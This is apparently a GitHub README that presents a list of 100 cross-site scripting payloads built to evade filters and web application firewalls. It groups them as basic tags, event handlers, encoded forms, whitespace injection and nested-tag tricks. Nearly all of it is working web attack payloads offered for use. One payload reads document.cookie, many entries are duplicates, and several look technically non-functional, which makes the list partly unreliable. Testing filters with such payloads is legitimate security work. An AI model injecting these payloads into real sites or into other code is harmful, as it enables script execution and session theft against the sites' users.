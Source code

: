 # XSS Payloads for Bypassing Filters and Firewalls

## Introduction

Cross-Site Scripting (XSS) is a common vulnerability that allows attackers to inject malicious scripts into web pages viewed by users. In response, many websites use filtering techniques and firewalls to block these malicious scripts. However, attackers can bypass these filters by using various encoding techniques, manipulating HTML tags, and exploiting event handlers.

This repository contains **100 XSS payloads** that are designed to bypass common XSS filters and web application firewalls (WAFs). These payloads employ techniques such as:
- Character encoding (e.g., Hexadecimal, Base64)
- Injecting whitespace (tabs, newlines)
- Manipulating HTML tags (e.g., nested tags, incomplete tags)
- Exploiting various event handlers (e.g., `onmouseover`, `onload`, `onclick`)
- Using **String.fromCharCode** for obfuscating the payload
- Combining different techniques for hybrid bypassing

Each of the payloads in this list targets specific techniques to test a web application's defenses. These payloads are useful for penetration testers and security researchers to assess the effectiveness of XSS protection mechanisms.

---

## XSS Payloads

### 1-20: Basic JavaScript Payloads
1. `<script>alert(1)</script>`
2. `<img src="x" onerror="alert(1)">`
3. `<svg/onload=alert(1)>`
4. `<iframe src="javascript:alert(1)"></iframe>`
5. `<body onload=alert(1)>`
6. `<a href="javascript:alert(1)">Click me</a>`
7. `<svg><desc><![CDATA[</desc><script>alert(1)//]]></script></svg>`
8. `<input onfocus="alert(1)">`
9. `<img src=x onmouseover=alert(1)>`
10. `<iframe srcdoc="<script>alert(1)</script>"></iframe>`
11. `<embed src="data:text/html,<script>alert(1)</script>">`
12. `<object data="data:text/html,<script>alert(1)</script>"></object>`
13. `<meta http-equiv="refresh" content="0;url=javascript:alert(1)">`
14. `<form><button formaction="javascript:alert(1)">Submit</button></form>`
15. `<math><mtext><script>alert(1)</script></mtext></math>`
16. `<xss><script>alert(1)</script></xss>`
17. `<textarea onfocus="alert(1)">`
18. `<a href="javascript:confirm(1)">Click</a>`
19. `<details ontoggle="alert(1)">`
20. `<marquee onstart="alert(1)">`

### 21-40: Event Handlers Payloads
21. `<img src=x onerror=alert(1)>`
22. `<div onmouseover="alert(1)">Hover me</div>`
23. `<input type="text" onfocus="alert(1)">`
24. `<body onload="alert(1)">`
25. `<a onmouseover="alert(1)">Hover me</a>`
26. `<button onclick="alert(1)">Click me</button>`
27. `<video src=x onerror=alert(1)>`
28. `<audio src=x onerror=alert(1)>`
29. `<form onsubmit="alert(1)">`
30. `<select onchange="alert(1)">`
31. `<keygen onfocus="alert(1)">`
32. `<label onmouseover="alert(1)">Hover here</label>`
33. `<a href="#" onmousedown="alert(1)">Click me</a>`
34. `<div onmouseout="alert(1)">`
35. `<p onmouseup="alert(1)">`
36. `<textarea onkeydown="alert(1)">`
37. `<textarea onkeyup="alert(1)">`
38. `<input type="text" onblur="alert(1)">`
39. `<input type="text" onfocus="alert(1)">`
40. `<iframe onload="alert(1)">`

### 41-60: Encoded Payloads (Hex, ASCII, Base64)
41. `<img src=&#x6A;avascript:alert(1)>`
42. `<a href="&#x6A;avascript:alert(1)">Click me</a>`
43. `<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></iframe>`
44. `<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>`
45. `<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">`
46. `<body onload="eval(atob('YWxlcnQoMSk='))">`
47. `<img src="&#106;avascript:alert(1)">`
48. `<a href="&#x6A;avascript:alert('XSS')">Click me</a>`
49. `<iframe srcdoc="<script>alert(1)</script>"></iframe>`
50. `<meta http-equiv="refresh" content="0;url=javascript:alert(1)">`
51. `<svg/onload="eval(atob('YWxlcnQoMSk='))">`
52. `<body onload="eval(atob('YWxlcnQoMSk='))">`
53. `<img src="data:image/svg+xml;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+">`
54. `<video src="data:video/mp4;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></video>`
55. `<audio src="data:audio/mp3;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></audio>`
56. `<math><mtext>&#x6A;avascript:alert(1)</mtext></math>`
57. `<img src="&#x6A;avascript:alert('XSS')">`
58. `<div onmouseover="eval(atob('YWxlcnQoMSk='))">Hover here</div>`
59. `<iframe src="data:text/html;base64,PHNjcmlwdD5jb25maXJtKDEpPC9zY3JpcHQ+"></iframe>`
60. `<img src="data:image/png;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+">`

### 61-80: Whitespace and Tab Injection Payloads
61. `<img src="java&#x09;script:alert(1)">`
62. `<a href="java&#x09;script:alert(1)">Click me</a>`
63. `<img src="java&#x0A;script:alert(1)">`
64. `<a href="java&#x0A;script:alert(1)">Click me</a>`
65. `<img src="java&#x0D;script:alert(1)">`
66. `<a href="java&#x0D;script:alert(1)">Click me</a>`
67. `<a href="java&#x0D;&#x0A;script:alert(1)">Click me</a>`
68. `<img src="java&#x09;&#x0D;script:alert(1)">`
69. `<a href="java&#x09;&#x0D;script:alert(1)">Click me</a>`
70. `<a href="java&#32;script:alert(1)">Click me</a>`
71. `<img src="java&#32;script:alert(1)">`
72. `<img src="jav&#x09;&#x0D;ascript:alert(1)">`
73. `<a href="jav&#x09;&#x0D;ascript:alert(1)">Click me</a>`
74. `<img src="jav&#x0A;&#x0D;ascript:alert(1)">`
75. `<a href="jav&#x0A;&#x0D;ascript:alert(1)">Click me</a>`
76. `<img src="jav&#x0A;ascript:alert(1)">`
77. `<a href="jav&#x0A;ascript:alert(1)">Click me</a>`
78. `<img src="jav&#x0D;ascript:alert(1)">`
79. `<a href="jav&#x0D;ascript:alert(1)">Click me</a>`
80. `<img src="jav&#x09;&#x0D;ascript:alert(1)">`

### 81-100: Tag Manipulation Payloads
81. `<scr<script>ipt>alert(1)</scr<script>ipt>`
82. `<scr<script>ipt>alert(document.cookie)</scr<script>ipt>`
83. `<svg><desc><![CDATA[</desc><script>alert(1)//]]></script></svg>`
84. `<xmp><iframe src="javascript:alert(1)"></iframe></xmp>`
85. `<math><annotation-xml encoding="text/html"><svg><script>alert(1)</script></svg></annotation-xml></math>`
86. `<xss><script>alert(1)</script></xss>`
87. `<iframe srcdoc="<scr<script>ipt>alert(1)</scr<script>ipt>"></iframe>`
88. `<iframe src="data:text/html,<scr<script>ipt>alert(1)</scr<script>ipt>"></iframe>`
89. `<meta http-equiv="refresh" content="0;url=javascript:alert(1)">`
90. `<object data="data:text/html,<scr<script>ipt>alert(1)</scr<script>ipt>"></object>`
91. `<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></iframe>`
92. `<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">`
93. `<math><mtext><scr<script>ipt>alert(1)</scr<script>ipt></mtext></math>`
94. `<xss><scr<script>ipt>alert(1)</scr<script>ipt></xss>`
95. `<svg><script>alert(1)</script></svg>`
96. `<iframe src="javascript:alert(1)"></iframe>`
97. `<img src="x" onerror="alert(1)">`
98. `<a href="javascript:alert(1)">Click me</a>`
99. `<iframe onload="alert(1)">`
100. `<svg/onload=alert(1)>`
